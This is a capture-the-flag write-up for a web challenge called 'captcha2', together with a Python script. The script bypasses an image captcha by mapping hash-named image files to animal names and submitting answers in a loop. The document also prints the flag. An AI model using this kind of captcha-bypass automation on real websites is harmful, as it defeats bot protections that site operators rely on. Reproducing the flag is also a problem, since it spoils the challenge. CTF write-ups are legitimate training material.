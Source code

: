 #### :warning: Please configure `processes` in Nginx Unit in Dockerfile according to server specs and [documentation](https://unit.nginx.org/configuration/#applications), right now it is not set, and the default value is 1, which is not optimal.


# Challenge Title/Description

captcha2 | the Missing Lake 2

Sorry for bothering you again! We forgot to retrieve some valuable assets the last time.
They have changed their captcha system, I think they know that we know about OCRs :)

# Write Up

First you have to find all animals present in the back-end.
1. Keep refreshing the page to find new animals: keep a table of all of them.
2. If you pay attention, the file-name of the animals is the sha1 of their names(capitalized), you can create a pre-set table.

Rest is easy, automate matching hashes + submitting to form
```python
import requests
from bs4 import BeautifulSoup

url = 'https://captcha2.uctf.ir/'

pictures = {
    'rabbit': '6D0EBBBDCE32474DB8141D23D2C01BD9628D6E5F.jpeg',
    'dog': 'E49512524F47B4138D850C9D9D85972927281DA0.jpeg',
    'cat': '9D989E8D27DC9E0EC3389FC855F142C3D40F0C50.jpeg',
    'bear': '09F5EDEB4F5B2A4E4364F6B654682C6758A3FA16.jpeg',
    'fox': 'FF0F0A8B656F0B44C26933ACD2E367B6C1211290.jpeg',
    'eagle': 'C29E4D9C8824409119EAA8BA182051B89121E663.jpeg',
    'snake': '148627088915C721CCEBB4C611B859031037E6AD.jpeg',
    'horse': '091B5035885C00170FEC9ECF24224933E3DE3FCC.jpeg',
    'penguin': '73335C221018B95C013FF3F074BD9E8550E8D48E.jpeg',
    'mouse': '9E05E6832CAFFCA519722B608570B8FF4935B94D.jpeg',
    'duck': '5ECE240085B9AD85B64896082E3761C54EF581DE.jpeg',
}

session = requests.Session()

def solve_captcha():
    response = session.get(url)
    
    soup = BeautifulSoup(response.text, 'html.parser')
    
    img_tags = soup.find_all('img')
    first_img_src = img_tags[0]['src']
    second_img_src = img_tags[1]['src']
    
    first_pic_title = [key for key, value in pictures.items() if value == first_img_src][0]
    second_pic_title = [key for key, value in pictures.items() if value == second_img_src][0]
    captcha_answer = f"{first_pic_title}-{second_pic_title}"
    
    response = session.post(url, data={'captcha': captcha_answer})
    
for _ in range(110): # Add 10 more just to make sure?
    solve_captcha()

print(session.get(url).text) # Get the flag from this print statement
```

# Flag

UCTF{Arm3n1an_m0uflon}

# Categories

Check the categories which the challenge belongs to.

- [x] Web
- [ ] Reverse
- [ ] PWN
- [ ] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Steganography

# Points

| Warm up | This Challenge  | Evil |
| ------- |:---------------:| ----:|
| 25      |       250       | 500  |

# Resources

You should create a folder including all needed files. You may create the challenge using [Docker Compose](https://docs.docker.com/compose/gettingstarted/). Additionally, You may put your files here including *reverse engineering* or *pcap* files.
